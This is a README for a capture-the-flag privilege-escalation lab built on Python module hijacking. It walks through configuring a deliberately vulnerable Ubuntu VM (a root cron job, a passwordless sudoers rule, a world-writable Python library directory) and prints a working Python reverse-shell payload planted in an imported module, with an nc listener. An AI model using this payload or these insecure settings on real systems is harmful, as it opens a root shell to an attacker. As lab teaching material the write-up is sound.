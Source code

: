 # EncryptEdge RCSCTF

This repository contains details and code for the EncryptEdge RCSCTF Challenge No.3 Privilage Escalation part.

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

We are intentionally giving the permissions of python library to user, And I have imported a custom library.

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Create a VM in any type-2 hyperviser 
> I used Ubuntu 22.04 LTS ISO image

> I used VMWare Workstation

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```
## Giving Least Privilages to user 

> I removed user from the "adm" and "sudo" groups

```sudo gpasswd -d (usernme) (groupname)```

## Viewing a particular user cronjob

```sudo crontab -l -u (username)```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```
sudo nano /etc/crontab
```

> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Editing Sudoers file 
> Open the sudoers file in a text editor with sudo privileges:

```sudo visudo```
> Add the following line at the end of the file:
```xavir ALL=(ALL) NOPASSWD: /usr/bin/python3.10```

> This will allow the user xavir to run /usr/bin/python3.10 as root without being asked for a password.

> Save the file and exit the text editor.

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```
## Manage access to custom python library
> To give only read and write access to demon.py to the user xavir, use the chmod and chown commands:

```
sudo chown -R xavir /usr/lib/python3.10
sudo chmod -R u+rw /usr/lib/python3.10
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:

```
cat /etc/crontab
```

## Implementing a Reverse Shell in Python 
> Editing custom library (i.e demon.py) which user has access to read and write and will upload the pyhton reverse shell

```nano /usr/lib/python3.10/demon.py```

```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```
## Getting the reverse shell 
> Start a listner on the host machine 

```nc -lvnp (port)```

> As the cronjob is running continuosly we will get the rev shell as soon as possible when the script is runned and a hint text file named youneedme.txt will be created in the used home directory.

> As our Cronjob script is runned by sudo privilages, the payload is executed by sudo privilages and hence we will get the root shell.


## This Privilage Escalation has three methods 
> 1. Method 1 [Write Permissions]

A vulnerability in a Python script that is caused by the permissions of the module file being imported. When the imported module file has permissions that allow any user to edit, it becomes a vulnerability. To understand the background and the permissions that can lead to a privilege escalation, the vulnerability is created in an Ubuntu environment and then exploited using Kali Linux.

> 2. Method 2 [Priority Order]

A vulnerability in a Python script that is caused by the priority order of the Python Library path. When a module is imported in a script, Python searches for the module file inside the default directories in a particular priority order. If there exists a Python module file in the same directory as the original script, it will get priority over the default paths. To understand how this can lead to a privilege escalation, the vulnerability is created in an Ubuntu environment and then exploited using Kali Linux.

> 3. Method 3 [PYTHONPATH Environment Variable]

This vulnerability is based on the Python Library that is searching through the Python PATH Environment Variable. This variable holds a list of directories where the python searches for the different directories for the imported modules. If an attacker can change or modify that variable then they can use it to elevate privileges on the target machine. To get a better understanding of what goes in the background, how can it lead to a privilege escalation we will first create the vulnerability in our ubuntu environment and then use Kali Linux to exploit this vulnerability. 